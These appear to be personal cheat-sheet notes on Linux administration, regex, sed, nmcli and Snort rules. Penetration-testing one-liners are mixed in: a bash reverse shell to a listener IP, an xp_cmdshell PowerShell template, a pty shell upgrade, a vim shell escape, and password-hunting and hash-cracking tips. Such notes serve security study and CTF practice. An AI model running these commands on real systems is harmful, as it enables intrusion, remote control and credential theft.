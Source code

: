 systemd = most common init program in modern linux
&& = executes command if the previous command is successful
| = command1 output is used as input for command 2
; = command 2 executes after command 1 is finished
nmap  -sV :version -O :OS type -sC: Performs a script scan using the default set of scripts

regex to remember
`^` - matches beginning of the line, patches the position not the character
`$` - matches ending of the line, position not the character
smbclient -N (no passwd) -L ( look up) \\\\[ip]\\
python3 -m http.server [PORT]
xp_cmdshell "powershell -c [Command]"
type - cat equiv in powershell
winPEAS - windows vulnerability lookup
python3 -c 'import pty;pty.spawn("/bin/bash")' - Issue a functional shell through a reverse shell
find 
locate [filename]
sudo -l - see what commands you are allowed to run as sudoer
chmod +rwx [file]
export PATH]/[path]:$PATH - sets a command
/bin/sh - starts shell
zip2john - converts a zip file to file that john that crack
hashcat - dehash something
bash -c "bash -i >& /dev/tcp/10.10.15.16/443 0>&1" - issue stable shell through listener

cat * | grep -i pass* - look for password files

if given access to vim /bin/vi -> :set shell=/bin/sh  then run shell

awk '{print $5}' log.txt | cut -d';' -f2 | sort | uniq -c - sort unique of a certain column

grep -o "[0-9]\+\.[0-9]\+\.[0-9]\+\.[0-9]\+" - sort IPs

notepad++ `^(?=.*\b[VALUE]\b)(?=.*\b[VALUE]\B)(?=.*\bVALUE\b).+$` find any string in one line

snort rules
`[ACTION] [PROTOCOL] [SRC IP/IP NET] [SRC PORT] -> [DEST IP] [DEST PORT] (rule option)

`du` -disk usage 

`tee` - read from stdin and write to stdout/fiels
	-a -append
	-i -ignore interrupts
### SSH
ssh-copy-id - allow login from one host to another
### SED
SED performs text transformations on steams
	substitiue some text for other text
	remove lines
	append text after given lines
	insert text before certain lines
	`sed  ` `[options]/search-pattern/replacement-string/flags`
		flags
		`i` -non -case sensitive
		`g` -global replaces all instances instead of first
		`d` - remove all that match
	sed `[OPTIONS]`
		`-i[replacementfile]
		`-s` - first character after the s is the delimiter char
		`-e` - tells sed to execute each differetn commant
			ex. `sed -e '/char/d' -e '/char2/d'`
		select the address/line
		`sed '2 s/apache/httpd/' config`

		``

Changing the shell of the cli 
  When altering a login shell the `chsh`  commmand displays the current login shell and prompts for a new one,
    /bin/sh
    /usr/bin/tcsh
    /usr/bin/bash
    /usr/bin/ksh
    /usr/bin/sh
    /usr/bin/csh
`chsh` cahnges the login shell of the username
Syntax: ` chsh [options] [login] `
  -l = used to specify login shell
  -u = prints list of shell
  -s = used to set the shell as your login shell

# Networking
Linux nmcli 
  command line tool for controlling network manager
  `nmcli [options] OBJECT {COMMAND | HELP }
    OBJECT options
      general | networking | radio | connection | device | agent | monitor
  -t , terse - computer script processing as you can see the teset output
  -f , field - specifies what fields can bebe displayed on output
  -p , pretty - human readable output
checking overall status of network manager
  nmcli general
Show UUID and others
  nmcli connection show
Can also be used to start and stop any network interface
  nmcli con up id bond0
  nmcli dev disconnect bond 0
"Note" : nmcli connection down deactivates the connection without preventing auto reconnect
  Nmcli device disconnect disconnects device and prevents reactivation
Restarting network services
      `sudo nmcli networking off
        `sudo nmcli networking on `
Text based ui - nmtui
DHCP - dhclient [-r|release]
`userdel` - delete users
`!!` - execute most recent command
	`!*` - execute most recent command matching `[*]`
Disable useraccount
	`Chage -E 0`


    
